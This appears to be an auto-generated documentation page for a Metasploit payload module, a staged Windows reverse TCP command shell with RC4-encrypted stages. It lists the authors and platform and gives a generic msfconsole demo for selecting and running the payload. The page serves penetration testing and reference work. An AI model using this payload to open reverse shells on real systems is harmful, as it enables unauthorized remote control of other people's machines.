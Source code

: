 ## Windows Command Shell, Reverse TCP Stager (RC4 Stage Encryption)

Spawn a piped command shell (staged). Connect back to the 
attacker


## Module Name
payload/windows/shell/reverse_tcp_rc4

## Authors
* spoonm
* sf
* hdm
* skape
* mihi





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/shell/reverse_tcp_rc4
msf payload(reverse_tcp_rc4) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4) > set TARGET <target-id>
msf payload(reverse_tcp_rc4) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4) > run
```
    
    